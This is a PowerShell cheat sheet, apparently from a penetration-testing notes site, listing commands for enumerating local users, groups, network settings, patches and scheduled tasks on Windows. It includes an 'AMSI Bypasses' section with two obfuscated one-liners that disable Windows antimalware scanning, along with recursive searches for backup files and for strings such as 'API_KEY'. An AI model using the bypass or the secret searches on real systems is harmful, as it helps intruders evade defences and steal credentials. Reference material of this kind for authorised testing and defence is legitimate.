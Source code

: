 ```yaml
---
title: "PowerShell CheatSheet"
description: "Enumeration methods using only PowerShell."
lead: "Enumeration of the domain, users, groups, and computers using only PowerShell."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_enumeration"
weight: 100
toc: true
---
```


## Security Features

### Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```

### AppLocker Policy

```powershell
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```

### AMSI Bypasses

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Users

### Show local Users

```powershell
Get-LocalUser
```

### Show Number of local Users

```powershell
Get-LocalUser | Measure-Object -line
```

### Get User by providing SID

```powershell
Get-LocalUser -SID "S-1-5-21-1394777289-3961777894-1791813945-501"
```

### Show Usernames and SIDs

```powershell
Get-LocalUser | Select-Object -Property Name,SID,Enabled
```

### Show Users that do not require a Password

```powershell
Get-LocalUser | Where-Object -Property PasswordRequired -Eq $False
```

## Groups

### Show local Groups

```powershell
Get-LocalGroup
```

### Show Number of local Groups

```powershell
Get-LocalGroup | Measure-Object -line
```

## Networks

### Get Network Adapter and IP Address Information

```powershell
Get-NetIPAddress
```

### Show only IPv4 Addresses and show Output in Table Format

```powershell
Get-NetIPAddress -AddressFamily IPv4 | Format-Table
Get-NetIPAddress -AddressFamily IPv4 | ft
```

### Show listening Ports

```powershell
Get-NetTCPConnection -State Listen
```

## Computers & Files

### Show installed Patches

```powershell
Get-HotFix
```

### Show Information about specific Patch

```powershell
Get-HotFix -ID KB4023834
```

### Search for Backup Files

```powershell
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue -Force
gci -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue -Force
ls -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue -Force
```

### Search for Files containing specific String

```powershell
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
```

### Get running Processes

```powershell
Get-Process
```

### Get all Scheduled Tasks

```powershell
Get-ScheduledTask
```

### Get Information about specific Scheduled Task

```powershell
Get-ScheduledTask -TaskName "new-sched-task"
```

### Show Owner of File/Folder

```powershell
Get-ACL C:\
```
